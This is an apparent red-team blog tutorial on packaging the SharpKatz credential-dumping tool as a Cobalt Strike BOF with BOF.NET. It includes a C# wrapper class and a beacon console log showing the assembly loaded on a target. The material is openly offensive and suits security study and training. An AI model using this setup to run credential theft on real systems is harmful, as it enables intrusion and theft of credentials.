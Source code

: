 ```yaml
---
layout: single
title: "A look at BOF.NET, setting up for use with Cobalt Strike"
date: 2021-11-17
tags:  
  - windows
  - bof
  - red-team
  - c#
author_profile: true
---
```



## Introduction 

BOF.NET is a small native BOF object combined with the BOF.NET managed runtime that enables the development of Cobalt Strike BOFs directly in .NET. BOF.NET removes the complexity of native compilation along with the headaches of manually importing native API

Source : [https://github.com/CCob/BOF.NET](https://github.com/CCob/BOF.NET)


## Porting BOF.NET Classes to SharpKatz

While integrating the BOF.NET dll and writing the class to execute the application as a BOF file would look a little "hard" or messy I tried to keep the walkthrough as simple as possible.

Firstly you can download the DLL from the BOF.NET releases page : [https://github.com/CCob/BOF.NET/releases](https://github.com/CCob/BOF.NET/releases) or build it from the source code if you would like.

Afterwards you would want to Add the `dll` as a Reference to SharpKatz Source Code :

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post3/bof3.png)

I will go on and create a new C# Class file to add it into the SharpKatz code which will contain the BOF.NET custom class

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post3/bof4.png)

This little piece of code basically takes user's arguments and forwards them to the real program's Main() function to avoid hardcoding.

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using BOFNET;

namespace SharpKatz
{
    public class Execute : BeaconObject
    {
        public Execute(BeaconApi api) : base(api) { }
        public override void Go(string[] args)
        {
            try
            {
                // Redirect stdout to MemoryStream
                var memStream = new MemoryStream();
                var memStreamWriter = new StreamWriter(memStream);
                memStreamWriter.AutoFlush = true;
                Console.SetOut(memStreamWriter);
                Console.SetError(memStreamWriter);

                // Run main program passing original arguments
                Program.Main(args);

                // Write MemoryStream to Beacon output
                BeaconConsole.WriteLine(Encoding.ASCII.GetString(memStream.ToArray()));

            }
            catch (Exception ex)
            {
                BeaconConsole.WriteLine(String.Format("\nBOF.NET Exception: {0}.", ex));
            }
        }
    }
}
```
Make sure you have also checked the main function name on the existing .NET project (SharpKatz in my example) and that the access modifier is set to public : 

```csharp
namespace SharpKatz
{
    public class Program
    {

        public static void Main(string[] args)
```

It needs to be callable so BOF.NET can be able to forward arguments to the main function.


## Importing BOF.NET to Cobalt Strike

When all that has been set up we can go on and build the project which will output the final `SharpKatz.exe` ready to be used as a BOF file.

Use the CNA script already included in the source code of BOF.NET to load the script on cobalt strike using script manager:

![img4](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post3/bof.png)

After grabbing yourself an interactive shell against the target you could try initialising bofnet and loading the BOF file to be executed. NOTE that this tool doesnt have anything to do with AMSI or any other protection as you would have to deal with that on your own. I am using a target with no antivirus defence to show the proof of concept for the tool :

```console
beacon> bofnet_init
[*] Initializing BOFNET
[+] host called home, sent: 490145 bytes
[+] received output:
[+] BOFNET Runtime Initalized, assembly size 483328, .NET Runtime Version: 4.0.30319.42000 in AppDomain BOFNET

beacon> bofnet_load /home/pi0x73/SharpKatz.exe
[*] Attempting to load large .NET assembly /home/pi0x73/SharpKatz.exe into BOFNET
[+] host called home, sent: 740018 bytes
[+] received output:
[+] Setting up new loader with unique id kPgG3dJw
[+] Loaded assembly SharpKatz, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null successfully
[=] Assembly has been prepared with Costura|dnMerge, running embedded assembly resolver
```

![gif](https://im4.ezgif.com/tmp/ezgif-4-b67d77acbc7d.gif)
